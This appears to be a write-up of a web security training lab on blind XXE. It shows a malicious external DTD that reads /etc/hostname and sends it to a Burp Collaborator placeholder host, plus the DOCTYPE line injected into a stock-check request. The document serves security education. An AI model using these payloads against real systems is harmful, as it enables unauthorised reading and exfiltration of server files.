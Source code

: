 # Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/fb6c0cd4-2dc3-419e-bcdb-6058f7e3f000)

## Solution

The application has a product stock check endpoint.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/c798ff75-201b-41ec-834c-4a8a209394c4)

The application checks for the stock level of a product by submitting XML to the server:

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/d2c0efb9-7826-4823-9764-0259abdc59d2)

Go to burp collaborator and click on **copy to clipboard**.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/d6689c08-bab4-4dca-8d74-c8a27e40709e)

Go to exploit server and save the following malicious DTD file on your server and click on **"Store"**

```XML
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

Place the Burp Collaborator payload into a malicious DTD file

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/69d90ea6-baac-4c39-8e70-a35da5d78c0b)

Click on **"View exploit"** and the file will be viewed.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/432f5cc0-ae12-4056-96f6-afed320f478a)

Insert the following external entity definition in between the XML declaration and the `stockCheck` element:

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`

Resubmit the request.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/a692c610-3d5f-403c-98cb-610671c4587f)

Some DNS and HTTP interactions that were initiated by the application as the result of our payload.

The HTTP interaction contain the contents of the `/etc/hostname` file.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/a633dc4a-f51a-4be2-a5db-4191558a1b34)

Enter the hostname in the **"Submit solution"** section.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/1bbaca60-168f-4ab7-95f3-90daa71d32f5)

Submission of the correct hostname solves the lab.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/60748a0a-be19-4a95-abd9-bd68d93acf31)

